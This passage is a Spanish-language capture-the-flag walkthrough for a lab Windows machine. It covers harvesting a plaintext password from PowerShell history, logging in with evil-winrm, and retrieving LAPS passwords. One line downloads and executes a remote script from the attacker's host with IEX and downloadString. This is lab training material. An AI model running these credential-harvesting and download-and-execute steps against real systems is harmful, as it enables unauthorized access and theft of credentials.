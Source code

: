 Revisando el histórico del usuario legacyy vemos que se tiene una constraseña *E3R$Q62^12p7PLlC%KWaxuaV* en texto plano del usuario svc_deploy

> *Evil-WinRM* PS C:\Users\legacyy> type APPDATA\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```console
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Probamos evil-winrm para conectarse con el svc_deploy y vemos que ingresamos

> evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

```console
WaxuaV' -S - Parrot Terminal
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

Para obtener las contraseñas de LAPS utilizamos la siguiente herramienta <https://github.com/kfosaaen/Get-LAPSPasswords>

Nos descargamos la herramienta

> git clone https://github.com/kfosaaen/Get-LAPSPasswords
>
> cd Get-LAPSPasswords
>
> python3 -m http.server 80

```console
10.10.11.152 - - [23/Aug/2022 14:54:30] "GET /Get-LAPSPasswords.ps1 HTTP/1.1" 200 -
```

> C:\Users\legacyy> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Get-LAPSPasswords.ps1')


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>